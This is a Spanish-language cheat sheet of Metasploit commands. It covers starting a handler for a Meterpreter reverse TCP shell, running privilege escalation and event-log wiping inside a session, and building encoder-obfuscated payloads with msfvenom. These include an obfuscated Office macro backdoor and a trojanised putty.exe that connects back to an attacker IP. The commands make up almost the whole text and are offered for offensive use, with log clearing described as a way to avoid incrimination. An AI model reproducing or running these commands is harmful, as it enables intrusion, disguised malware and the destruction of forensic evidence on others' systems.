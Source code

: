 ## Para levantar un Listener

Manualmente:

Use Exploit/multi/Handler

Set PAYLOAD windows/meterpreter/reverse\_tcp

Set LPORT \&lt;LPORT\&gt;

Set LHOST \&lt;LHOST\&gt;

Set exitonsessions false

Exploit -j

También se puede ejecutar directamente desde fuera de la consola con:

msfconsole -x &quot;use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse\_tcp; set LHOST \&lt;IPAtacante\&gt;; set LPORT \&lt;puertoelegido\&gt;; run;exit -y&quot;

O escribir todo el listado en un archivo handler.rc y ejecutar

Msfconsole -r handler.rc

MSFPC -\&gt; Metasploit Payload Creator

msfpc windows \&lt;iplocal\&gt; \&lt;puertolocal\&gt;

creará el payload y el .rc para comunicación automática.

## Dentro del Meterpreter

getuid : Muestra los privilegios actuales

getsystem : obtiene privilegios de sistema

cleanev : Para eliminar eventos de windows que pueden incriminar



Timestomp :

meterpreter \&gt; execute -f &quot;cmd.exe /c systeminfo \&gt; systeminfo.txt&quot;



## Para crear PAYLOAD

Msfvenom -p windows/x64/meterpreter\_reverse\_tcp LHOST=\&lt;lhost\&gt; LPORT=\&lt;lport\&gt; -f exe -o \&lt;dirdestino\&gt; -x calc -f exe -e x86/shikata\_ga\_nai -i 2 | msfvenom -e cmd/powershell -i 1 -f exe -o \&lt;dir/name.exe\&gt;

para ofuscarlo con encoders.

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse\_tcp LHOST=\&lt;\&gt; LPORT=\&lt;\&gt; -e x86/shikata\_ga\_nai -i 10 -f vba -o /root/Desktop/office-backdoor -\&gt; para crear un macro office ofuscado 10 veces.

msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse\_tcp lhost=192.168.1.63 -e x86/shikata\_ga\_nai -i 3 -b &quot;\x00&quot; -f exe -o putty2.exe
